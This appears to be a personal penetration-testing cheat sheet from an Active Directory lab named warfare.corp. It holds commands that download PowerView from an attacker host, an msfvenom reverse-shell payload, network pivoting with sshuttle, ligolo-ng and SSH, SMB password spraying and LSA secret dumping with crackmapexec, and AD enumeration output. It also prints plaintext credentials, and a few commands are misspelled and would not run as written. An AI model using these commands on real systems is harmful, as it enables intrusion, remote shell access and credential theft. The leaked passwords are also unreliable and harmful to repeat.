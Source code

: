 # Download file
	run in powershell -> iwr http://10.10.10.10:8000/PowerView.ps1 -OutFilew C:\Windows\Temp\PowerView.ps1

 	run in cmd -> certutile -urlcache -split -f http://10.10.10.10:8080/PowerView.ps1 PowerView.ps1

# mfsvenom

	msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f exe -o rev.exe

# Pivoting

Sshuttle Command:

	sshuttle -r user@remote_host:2222 192.168.98.0/24 
	sshuttle -r user@remote_host 192.168.98.0/24 

	192.168.98.0/24 -> get from check ifconfig when see 2 adapter
	
	after shuttle
	
	nmap -sC -sV 192.168.98.5 -> IP for Pivoting

ligolo-ng

	#Attacker Machine, download proxy & agent :
	
	#Proxy
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

	#Agent
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

	Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim machine.

	# Attacker Machine
	sudo ip tuntap add user kali mode tun ligolo

	#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
	sudo ip route del 192.168.98.0/24 dev tun0
	#Up the ligolo interface :
	sudo ip link set ligolo up
	#Add 192.168.98.0/24 IP range to the ligolo interface :
	sudo ip route add 192.168.98.0/24 dev ligolo

	Confirm the route on your attacker machine.

	ip route

	Start the proxy on the attacker server
	./proxy -selfcert -laddr 0.0.0.0:443

	Transfer the agent on the victim machine & start the connection
	#Replace this with your attacker IP address.
	./agent -connect 10.10.200.124:443 -ignore-cert

	session
	list_tunnels
	start

SSH Pivoting

	ssh -D 8088 privilege@192.168.80.10
	netstat -ano | grep 8088




# Firefox Find Information

	ls -la .mozilla/
	cd .mozilla/firefox/
	# The filename may vary on your infrastructure, identify & use accordingly
	cd b2rri1qd.default-release
	
	sqlite3 places.sqlite
	.tables
	select * from moz_bookmarks;

# SMB

SMB Bruteforce IP List with one username and password

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" -u "john" -p "User1@#$%6" ; done

SMB check information 

	crackmapexec smb 192.168.98.2

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" sleep 10; done

SMB LSA 

	crackmapexec smb 192.168.98.30 -u john -p User1@#$%6 --lsa

	Output: 
		SMB         192.168.98.30   445    MGMT             			corpmngr@child.warfare.corp:User4&*&*

	



# Error NTP with kerberous Attack AD

	sudo apt update
	sudo apt install ntpdate
	timedatectl 
	timedatectl set-ntp true
	reboot
	sudo systemctl start ntp
	sudo systemctl status ntp


# AD PowerView

	
	# Get-AdForest 
	
	
	ApplicationPartitions : {DC=DomainDnsZones,DC=warfare,DC=corp, DC=DomainDnsZones,DC=child,DC=warfare,DC=corp, 
	                        DC=ForestDnsZones,DC=warfare,DC=corp}
	CrossForestReferences : {}
	DomainNamingMaster    : dc01.warfare.corp
	Domains               : {child.warfare.corp, warfare.corp}
	ForestMode            : Windows2016Forest
	GlobalCatalogs        : {dc01.warfare.corp, cdc.child.warfare.corp}
	Name                  : warfare.corp
	PartitionsContainer   : CN=Partitions,CN=Configuration,DC=warfare,DC=corp
	RootDomain            : warfare.corp
	SchemaMaster          : dc01.warfare.corp
	Sites                 : {Default-First-Site-Name}
	SPNSuffixes           : {}
	UPNSuffixes           : {}



	PS C:\Windows\Temp> net localgroup Administrators 
	net localgroup Administrators
	Alias name     Administrators
	Comment        Administrators have complete and unrestricted access to the computer/domain
	
	Members
	
	-------------------------------------------------------------------------------
	Administrator
	corpmngr


	# Get-ADTrust -Filter *
	Direction               : BiDirectional -> communication Both ways
	DisallowTransivity      : False
	DistinguishedName       : CN=warfare.corp,CN=System,DC=child,DC=warfare,DC=corp
	ForestTransitive        : False
	IntraForest             : True
	IsTreeParent            : False
	IsTreeRoot              : False
	Name                    : warfare.corp
	ObjectClass             : trustedDomain
	ObjectGUID              : 59bbc30c-d218-495f-a48c-b728a42eb732
	SelectiveAuthentication : False
	SIDFilteringForestAware : False
	SIDFilteringQuarantined : False
	Source                  : DC=child,DC=warfare,DC=corp
	Target                  : warfare.corp
	TGTDelegation           : False
	TrustAttributes         : 32
	TrustedPolicy           : 
	TrustingPolicy          : 
	TrustType               : Uplevel
	UplevelOnly             : False
	UsesAESKeys             : False
	UsesRC4Encryption       : False


 	** net user /dom
  	** net group /dom


